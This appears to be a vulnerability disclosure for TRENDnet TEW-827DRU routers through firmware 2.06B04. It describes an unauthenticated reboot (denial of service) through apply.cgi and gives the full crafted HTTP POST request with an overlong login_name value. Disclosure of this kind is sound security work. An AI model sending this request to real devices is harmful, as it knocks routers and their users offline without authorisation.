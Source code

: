 # TEW-827DRU
## Firmware version
TEW-827DRU devices through 2.06B04
## description
TRENDnet TEW-827DRU devices through 2.06B04 contain a DoS vulnerability in the ssi binary. The DoS vulnerability allows an unauthenticated user to reboot the device by POSTing to apply.cgi via the action reject with crafted package.
## detail
![code releted to rc_restart](image.png)
![rc_restart](image-1.png)
## send package
```txt
POST /apply.cgi HTTP/1.1
Host: 192.168.1.1
Accept: */*
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 289

action=reject&html_response_page=aaaaaa.html&reject_url=aaa&login_name=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```